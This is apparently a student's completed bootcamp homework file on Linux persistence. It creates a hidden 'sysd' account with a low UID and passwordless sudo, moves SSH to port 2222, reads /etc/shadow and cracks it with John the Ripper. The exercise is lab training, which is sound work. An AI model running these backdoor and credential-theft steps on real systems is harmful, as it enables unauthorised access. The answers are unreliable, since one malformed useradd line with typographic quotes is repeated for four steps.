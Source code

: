 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    useradd –password ‘sysd’ –gid  ‘111’ –uid ‘111’ -G ‘sudo’ sysd

2. Give your secret user a password: 
    useradd –password ‘sysd’ –gid  ‘111’ –uid ‘111’ -G ‘sudo’ sysd

3. Give your secret user a system UID < 1000:
   useradd –password ‘sysd’ –gid  ‘111’ –uid ‘111’ -G ‘sudo’ sysd

4. Give your secret user the same GID:
   useradd –password ‘sysd’ –gid  ‘111’ –uid ‘111’ -G ‘sudo’ sysd

5. Give your secret user full `sudo` access without the need for a password:
   	visudo
	sysd ALL=(ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:

su sysd
sudo cat /etc/shadow
sudo -l
-worked with no password requested -

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

Port 2222
   

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - sudo systemctl restart sshd

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - john /etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

